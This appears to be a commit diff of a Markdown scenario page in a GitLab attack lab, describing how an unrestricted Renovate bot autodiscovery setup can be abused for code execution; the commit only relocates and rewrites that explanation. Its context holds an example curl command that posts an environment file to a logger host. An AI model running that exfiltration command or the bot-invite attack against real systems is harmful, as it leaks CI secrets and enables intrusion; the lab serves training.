

Before and after one commit to sploutchy/gitlab-attack-lab, a Markdown page: lab-config/scenarios/scenario-03-renovate-bot-exploitation.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Move the autodiscovery attack explanation back to Objective, clarified
Rewritten as a precondition -> attack -> outcome structure and fixed
a typo ("renvoate" -> the sentence no longer needs that word), rather
than the previous single run-on sentence.

```diff
--- a/lab-config/scenarios/scenario-03-renovate-bot-exploitation.md
+++ b/lab-config/scenarios/scenario-03-renovate-bot-exploitation.md
@@ -46,6 +46,8 @@ hints:
 
 Identify a Renovate bot technical user which is used for running Renovate.
 
+This scenario assumes Renovate is configured with autodiscovery. If autodiscovery isn't properly restricted, an attacker can invite the bot user to a project they control — GitLab auto-accepts invites by default. Renovate will then run against that attacker-controlled repository, resulting in code execution in the Renovate bot's process.
+
 ## Background
 
 [Renovate](https://docs.renovatebot.com/) is a popular dependency-update automation
@@ -63,8 +65,6 @@ Other helpful commands:
 
 ## Scenario Description
 
-In this scenario we assume that the renovate configuration includes the auto discovery configuration. If this is set and not restricted properly an attacker can invite the bot user (Gitlab by default auto accepts invites) and let it renvoate its own malicious repository, leading to code execution in the Renovate bot process.
-
 **Helper Service:** To extract information from CI/CD pipelines, you can use the webhook logger service at `http://localhost:7705`. Any request to it will be logged and you can view the request logs at `http://localhost:7705/logs`.
 
 Example curl command: `curl -k -sSf -X POST -F "files=@$ENV_FILE" http://webhook-logger:8084`
```
